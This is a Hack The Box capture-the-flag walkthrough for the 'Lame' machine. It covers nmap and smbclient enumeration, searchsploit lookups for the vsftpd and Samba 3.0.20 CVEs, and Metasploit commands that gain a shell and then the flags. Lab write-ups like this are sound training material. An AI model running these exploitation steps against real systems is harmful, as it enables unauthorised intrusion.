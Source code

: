 ##**Hack The Box - Lame**

**Creator:**

**Difficulty:** Easy

**Link:** [Link to HTB-Lame](

---

## Walkthrough


<ins>**Enumeration**</ins>

Since Hackthebox provides us with the machines IP address there is no need to do an initial discovery scan on our network like with other vulnerable machines. 

Instead for my first step I enumerate the services with open ports and try to figure out their versions. 

`nmap -sV -sC <target_ip>` 

Where the *-sV* switch tells nmap to identify service versions and *-sC* tells it to perform a script scan using the default set of scripts and *<target_ip>* is the IP address for the machine provided by hack the box. 

![Service Enumeration Fail](/docs/assets/images/HTB/Lame/lame01.png)

It can be seen from the results that the machine is blocking ping scans and that nmap suggests we try to use the *-Pn* switch. This switch tells nmap to disable host discovery and to only scan ports.

`nmap -sV -sC -Pn <target_ip>`

![Enumeration Results](/docs/assets/images/HTB/Lame/lame02.png)

\* *Another thing that can be done is to output the scan results into a file, which along with taking screenshots can be handy for referencing later (For example here is an old screenshot of the first time I attempt to scan this machine)*

![Output Scan Results To A File](/docs/assets/images/HTB/Lame/lame03.png)

The `-O` switch tells nmap to also try to discover the machines operating system.

So the Results from the initial nmap scan are

> Port 21 open to FTP traffic using version vsftpd
> 
> Port 22 open to SSH traffic using version OpenSSH 4.7p1
> 
> Port 139 open to smb traffic using version Samba 3.x - 4.x]
> 
> Port 445 open to smb traffic using version Samba 3.0.20

It's also possibly running Linux as it's Operating System.

The *anonymous* credentials for *smbclient* do allow for a look into the machine, but with such low privileges there wasn't a whole lot I could find to do.

```
smbclient -L 10.10.10.3 
smbclient \\\\10.10.10.3\\tmp
When prompted for a password simply press enter
```

![smbclient1](/docs/assets/images/HTB/Lame/lame04.png)

![smbclient2](/docs/assets/images/HTB/Lame/lame05.png)

The files labeled *exploit* and *vgauthsvclog.txt* appeared to be intersting but after downloading and reading through them there wasn't much I was able to do.

---


<ins>**Known Exploits**</ins>

*searchsploit* can be used to search for known exploits related to the service versions that nmap found. On this machine two known exploits that work with metasploit are found.

The first is an exploit related to the *ftp* version.

**CVE:** 2011-2523 

**Link:** [Exploitdb Link](https://www.exploit-db.com/exploits/17491)

**More Detailed Link:** [NIST Link](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)

![ftp searchsploit](/docs/assets/images/HTB/Lame/lame06.png)

The second one is related to the *samba* version

**CVE:** 2007-2447 

**Link:** [Exploitdb Link](https://www.exploit-db.com/exploits/16320)

**More Detailed Link:** [NIST Link](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)

![samba searchsploit](/docs/assets/images/HTB/Lame/lame07.png)

As both of these exploits work with *Metasploit* it's fairly easy to test them.

---

<ins>**The Exploit That Works**</ins>


Of the two exploits this machine appears to be vulnerable to I was only able to get the one that targets Samba 3.0.20 to work.

This exploit is made for *Metasploit* so it's simple to execute. Enter the following to bring up the *Metasploit Framework* and search for the path to the exploit.

```
msfconsole
search samba 3.0.20
```

![msfconsole and search](/docs/assets/images/HTB/Lame/lame08.png)
![msfconsole and search](/docs/assets/images/HTB/Lame/lame09.png)

In this case it's the first and only exploit that shows up so either enter `use 0` or `use <file_path>` to select the exploit. From there entering `options` will display all of the options that can be manually adjusted.

![Samba Exploit Options](/docs/assets/images/HTB/Lame/lame10.png)

The available options are *RHOSTS*, *RPORT*, *LHOST*, *LPORT*. For the purposes of this exploit the only two to be concerned with are *RHOSTS* and *LHOST* options. Enter the following options
```
set RHOSTS <target_ip>
set LHOST <host_ip>
```
Where the <target_ip> is the IP address for the machine provided by Hack the box and <host_ip> represents the IP address associated with your machine.

![Set Hosts](/docs/assets/images/HTB/Lame/lame11.png)
\* I initially made a mistake here as it's *LHOST* not *LHOSTS*

Then just enter `run` in the console and wait a moment while Metasploit works it's magic. Eventually your console will display a dialogue that looks similar to the one below and then you can start entering commands on the target machine.

![Exploit](/docs/assets/images/HTB/Lame/lame12.png)

`whoami`

![whoami](/docs/assets/images/HTB/Lame/lame13.png)

From there it's just using commands to explore the file system to find the flags.

![Explore File System User](/docs/assets/images/HTB/Lame/lameuserflag.png)

![Explore File System Root](/docs/assets/images/HTB/Lame/lame14.png)

Copy the flag and submit it on Hackthebox and you're done.

![Lame Pwn](/docs/assets/images/HTB/Lame/lamepwn.png)

---

<ins>**The Exploit That Didn't Work**</ins>

I was not able to successfully execute the ftp vulnerability. After doing some searching online I mostly found a lot of blog posts very similar to this one expressing the same thing. So very briefly I'll provide a quick break down of my attempt to do so with screenshots and if anyone who happens to read this knows how to actually make the exploit work please update me in the comments.

As this one is another Metasploit exploit the first thing to do is again open the msfconsole and search for the exploits file path.

![msfconsole ftp](/docs/assets/images/HTB/Lame/lame15.png)

From here it will be the same as before where we select the exploit by entering `use 0` or `use <file_path>` and then enter `options` to see the options available for this exploit.
This time around the only concer is the *RHOSTS* options so enter `set RHOSTS <target_ip>`. I will usually enter `options` again just to verify I set everything correctly.

![msfconsole ftp options](/docs/assets/images/HTB/Lame/lame16.png)

From there simply enter `run` into the console and let Metasploit once again work it's magic. Eventually an error will display claiming the exploit was completed but no session was created.

![msfconsole ftp error](/docs/assets/images/HTB/Lame/lame17.png)

That's all there is to that one as far as I can tell. I found one blog post claiming that the exploit was just a backdoor that was patched out of that version and was only available for a short time. I really couldn't find a source on that information though.

---

<ins>**Final Thoughts**</ins>

Not a whole lot. Lame is a relatively easy machine intended to be the first part of a *Beginner Track* offered by Hackthebox. I could see it being frustrating if you attempted the broken exploit first and got hung up on trying to make it work. I believe each of these exploits can also be executed manually if you'd like an additional challenge. Outside of that as far as I can tell Lame doesn't really have a whole lot going on with it.



